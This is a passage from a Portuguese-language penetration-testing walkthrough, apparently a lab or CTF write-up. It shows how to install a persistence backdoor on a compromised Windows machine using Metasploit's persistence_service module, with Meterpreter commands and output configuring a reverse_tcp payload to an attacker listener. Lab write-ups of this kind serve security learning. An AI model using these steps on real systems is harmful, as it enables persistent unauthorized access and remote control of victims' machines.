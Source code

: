 ## **<a id="5"> • Install Persistence backdoor</a>**

Para instalar um backdoor de persistência na máquina, vamos utilizar o modulo `exploit/windows/local/persistence_service` do `Metasploit`, mas primeiro vamos colocar o `Meterpreter` em background com o comando `background` ou `ctrl + z`:

```bash
meterpreter > background 
[*] Backgrounding session 1...
```

Agora vamos utilizar o modulo `exploit/windows/local/persistence_service` utilizando o comando `use` e `show options` para listar as opções disponíveis:

```bash
msf6 exploit(windows/http/rejetto_hfs_exec) > use exploit/windows/local/persistence_service
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/persistence_service) > show options 

Module options (exploit/windows/local/persistence_service):

   Name                 Current Setting  Required  Description
   ----                 ---------------  --------  -----------
   REMOTE_EXE_NAME                       no        The remote victim name. Random string as default.
   REMOTE_EXE_PATH                       no        The remote victim exe path to run. Use temp directory as default.
   RETRY_TIME           5                no        The retry time that shell connect failed. 5 seconds as default.
   SERVICE_DESCRIPTION                   no        The description of service. Random string as default.
   SERVICE_NAME                          no        The name of service. Random string as default.
   SESSION                               yes       The session to run this module on


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.4.3        yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows
```

Aqui nos temos que configurar a opção `SESSION` com o número da sessão que o `Meterpreter` está rodando, para isso temos que utilizar o comando `sessions` para listar as sessões disponíveis:
